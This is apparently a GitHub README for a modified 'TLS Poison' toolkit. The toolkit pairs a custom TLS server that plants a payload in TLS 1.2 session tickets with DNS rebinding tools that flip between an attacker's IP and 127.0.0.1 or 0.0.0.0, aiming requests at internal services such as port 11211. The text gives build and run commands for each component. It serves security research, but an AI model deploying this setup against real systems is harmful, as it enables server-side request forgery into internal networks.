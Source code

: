 # TLS Poison
You can read http://blog.zeddyu.info/2021/04/20/tls-poison/ for more information.

Modified from https://github.com/jmdx/TLS-poison. Compared to the original repo, I have added some modified tools and a feature. The modified tools are shown below. 

Now we can use session ticket to resume session. You could set the `ticket_payload` in the redis to try TLS 1.2 session ticket resumption poison.



###	TLS Server

```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 11211 --verbose --certs /root/tls/fullchain.pem --key /root/tls/privkey.pem http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```

If you use the proxy tool, you should change the port to 11210.


```
target/debug/custom-tls -p 11210 --verbose --tickets --certs /path/to/fullchain.pem --key /path/to/privkey.pem --protover 1.2 http
```



###  DNS Tool

```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

I have changed the original dns rebinding method. It will return your TLS server IP in the first 10s,  return 127.0.0.1 thereafter.

If you want to change the interval time, edit client-hello-poisoning/custom-dns/alternate-dns.py#96.

```python
return d[1] if (time() - start > 10) else args.TARGET
```



###  Proxy Tool

```
python2 proxy.py
```

Forward port 11211 to local port 11210.



###	New DNS Tool

```
python3 alternate-dns.py example.com --ip x.x.x.x --mode static_zero
Usage:
     --ip 					 Your vps ip or an ip which you want the domain point to.
     --static_zero   In this mode, the tool will return two A records in a DNS query. One of the records is your vps ip, the other one is 0.0.0.0.
     --rebinding		 In this mode, the tool will only return an A records in a DNS query. But it will randomly return 127.0.0.1 or the ip you set. Similar like the original alternate-dns tool.
```

